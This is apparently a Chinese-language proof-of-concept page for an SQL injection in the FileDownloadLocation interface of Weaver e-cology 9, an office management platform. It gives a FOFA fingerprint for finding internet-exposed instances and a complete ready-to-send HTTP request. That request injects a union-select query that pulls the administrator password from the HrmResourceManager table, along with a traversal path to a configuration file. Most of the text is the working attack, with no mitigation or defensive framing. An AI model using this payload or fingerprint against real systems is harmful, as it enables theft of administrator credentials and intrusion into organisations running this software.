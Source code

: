 # 泛微e-cology9系统接口FileDownloadLocation接口存在SQL注入漏洞
泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。泛微e-cology 9 x.FileDownloadLocation接口存在SQL注入漏洞

## fofa
```javascript
body="doCheckPopupBlocked"
```

## poc
```javascript
GET /weaver/weaver.email.FileDownloadLocation/login/LoginSSOxjsp/x.FileDownloadLocation?ddcode=7ea7ef3c41d67297&downfiletype=eml&download=1&mailId=1123+union+select+*+from+(select+1+as+resourceid,'../ecology/WEB-INF/prop/mobilemode.properties'+as+x2,'3'+as+x3,(select++*+from+(select+*+from+(select+password+from+HrmResourceManager+where+id=1)x)x)+as+x4,5+as+x5,6+as+x6)x+where+1=1&mailid=action.WorkflowFnaEffectNew&parentid=0 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate, br, zstd
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.0.0 Safari/537.36
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1734313084568-1d1365df-db66-42e7-b2ca-15e8f0de17bb.png)

